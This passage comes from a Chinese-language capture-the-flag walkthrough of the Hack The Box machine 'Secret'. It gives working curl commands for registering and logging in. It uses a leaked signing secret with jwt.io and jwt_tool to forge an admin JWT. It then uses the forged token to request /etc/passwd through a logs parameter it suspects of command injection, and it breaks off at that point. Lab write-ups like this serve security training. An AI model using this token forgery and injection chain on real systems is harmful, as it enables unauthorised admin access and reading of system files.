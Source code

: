 ```bash
curl -X POST -H 'Content-Type: application/json' -v http://secret.htb/api/user/register --data '{"name": "pyhpyh","email":"pyhpyh@pyhpyh.com","password":"123456"}'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/6877b34ccd48456899c6406694b4a3c1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
注册成功后我们尝试登录，获取到对应的一个jwt的json值

```bash
curl -X POST -H 'Content-Type: application/json' -v http://secret.htb/api/user/login --data '{"email": "pyhpyh@pyhpyh.com","password":"123456"}'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/aafa956f479941fbbeab98630d01d38f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们拿到`jwt.io`这个网站上进行解密，可以看到如下的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/179ef353a19343508cdd7f441865168d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们以这个token值去请求`priv`页面时，页面返回的是json内容给我们，表名我们当前还是一个普通用户

```bash
curl http://secret.htb/api/priv -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWU1OTEwNTQ4OTBkMzA0NWZiZGVjZTkiLCJuYW1lIjoicHlocHloIiwiZW1haWwiOiJweWhweWhAcHlocHloLmNvbSIsImlhdCI6MTY0MjQzNDk3MX0.a0IawKMSfT6K0c3MnpLFUG9DdzBGETBaBidIVvI232k'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/4ffd7b07f06341bc9e474824e0ab7497.png)
那么我们这里就可以使用越权的方式进行对我们当前用户的权限进行提升。首先我们先获取到网站本身对应的`TOKEN_SECRET`值`gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE`
![在这里插入图片描述](https://img-blog.csdnimg.cn/fbbb692d50744c04b07e88f1794b5a28.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
这里有两种方式可以获取到`theadmin`的token值，第一种方式是直接在jwt.io网站上获取，另一种是借助github上的开源工具，两种方法都是可行的。
![在这里插入图片描述](https://img-blog.csdnimg.cn/8d4fa1ca097b4af88ba2fa45fb58e16f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/7e6f80cc46fb4cd295778db414ecac66.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
token改变完成后，我们再进行请求，验证我们的token是否有效，结果是成功的。
![在这里插入图片描述](https://img-blog.csdnimg.cn/a1f94aca92f3429c9a9f6a60702f9b5f.png)
第二种方法就是，利用jwt_tools这个工具直接生成一个有效的theadmin对应的token值。`-I`参数是指更改现有的jwt_token值，`-S`是指加密的方式，`-pc`是设置payload的对应字段名，`-pv`是payload对应的字段值，`-p`是指密码

```bash
python3 jwt_tool.py -I -S hs256 -pc 'name' -pv 'theadmin' -p 'gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE' eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWU2MmM4MjJiODI1ZTA0NmIwNzFiYTIiLCJuYW1lIjoicHlocHloIiwiZW1haWwiOiJweWhweWhAcHlocHloLmNvbSIsImlhdCI6MTY0MjQ3NDY0Mn0.veoEcejKaj-TjQuBu63pwJmyaU1hzx3qV7GgQkbZ6R4
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/84147fa8af0e48feb62f092514fda485.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
至此，我们虽然是得到了admin的token令牌，但是我们还得找到可以利用的点。在审计private.js文件时，发现了logs目录，这个目录后面要传入一个files参数，这个参数执行的条件恰巧就是必须得以管理员的权限运行，并且是以命令的形式执行，那这里就可能存在RCE漏洞了。我们简单检验了一下
![在这里插入图片描述](https://img-blog.csdnimg.cn/3986f4c8d6c741c3a586b085150d2916.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_19,color_FFFFFF,t_70,g_se,x_16)

```bash
curl 'http://secret.htb/api/logs?file=/etc/passwd' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWU2MmM4MjJiODI1ZTA0NmIwNzFiYTIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InB5aHB5aEBweWhweWguY29tIiwiaWF0IjoxNjQyNDc0NjQyfQ.C-80kPcZ5PSO1qK-VNL1m4PACDJO8jJ-qPMrTp19u_A'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/2227afbf6fb649e681f1a9da5e9bd06c.png)
从这个现象上看，有点类似于命令注入漏洞。我们稍微更改一下参数变量的值
